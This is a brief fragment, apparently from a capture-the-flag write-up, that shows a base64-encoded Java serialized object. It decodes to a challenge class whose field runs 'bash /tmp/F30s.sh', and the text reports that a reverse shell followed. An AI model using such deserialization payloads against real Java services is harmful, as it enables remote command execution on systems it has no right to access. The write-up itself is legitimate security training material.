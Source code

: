 - ![12.png](./assets/12.png)
- After sending the second serialized object
- `rO0ABXNyAB5jb20ueW9nb3NoYS51dGlscy5NaXNzaW9uRGVidWcEJYLPtI0rFwIAAUwABWRlYnVndAASTGphdmEvbGFuZy9TdHJpbmc7eHB0ABFiYXNoIC90bXAvRjMwcy5zaA==`
- WE'VE GOT REVERSESHELL 🚀🚀